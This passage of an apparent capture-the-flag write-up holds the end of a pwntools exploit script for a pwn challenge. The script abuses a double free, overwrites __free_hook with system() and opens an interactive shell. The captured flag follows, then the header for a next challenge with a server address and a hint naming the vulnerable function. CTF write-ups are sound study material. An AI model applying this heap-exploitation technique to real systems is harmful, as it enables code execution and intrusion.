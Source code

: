 ```python
s.sendlineafter(': ',"1") # speed

# del human * 2
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"5")
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"4")

# del god -- double free --
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"2") # god
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"4")

# create human
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x60)) # len
s.sendlineafter(': ','A') # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x30)) # len
s.sendlineafter(': ',p32(libc_base + l.symbols['__free_hook'])) # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # spee

# overwrite __free_hook
s.sendlineafter('> ',"4") # edit
s.sendlineafter(': ',"4") # human
s.sendlineafter(' your name:',p32(libc_base + l.symbols['system']))

s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"6") # shell

s.interactive()
```

FLAG : FLAG is FLAG{E@sy_I5_it_3asy?_It_is_ea5y_!!}
<br><br><br>

## HS_CLUB 997 (Pwn)
```
Hacking Create and grow security clubs!
222.110.147.52:35163
Hint: sub_4009e0 함수에 취약점이 있다
Link
```
